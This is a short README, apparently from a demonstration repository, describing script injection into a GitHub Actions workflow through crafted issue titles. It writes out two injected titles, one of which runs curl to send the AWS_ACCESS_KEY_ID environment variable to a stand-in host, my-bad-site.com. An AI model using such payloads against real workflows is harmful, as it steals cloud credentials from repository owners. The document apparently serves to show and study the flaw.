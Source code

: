 # Example Repo

This is a super simple example repository!

Experiments:

1. Script Injection

Creating a issue with title - a";echo Got your secrets"
" closes the double quotes in workflow line issue_title="${{ github.event.issue.title }}"
Title is just "a", rest is interpreted as sript -> echo Got your secrets
Outcome: 
In shell "echo Got your secrets" is printed

Creating a issue with title - a";curl http://my-bad-site.com?abc=$AWS_ACCESS_KEY_ID"
curl can be used to send a http request to my-bad-site.com
query paramets abc could be set to the variable $AWS_ACCESS_KEY_ID
Outcome:
The env var AWS_ACCESS_KEY_ID is accessed and value is send to my-bad-site.com
Access key is exposed


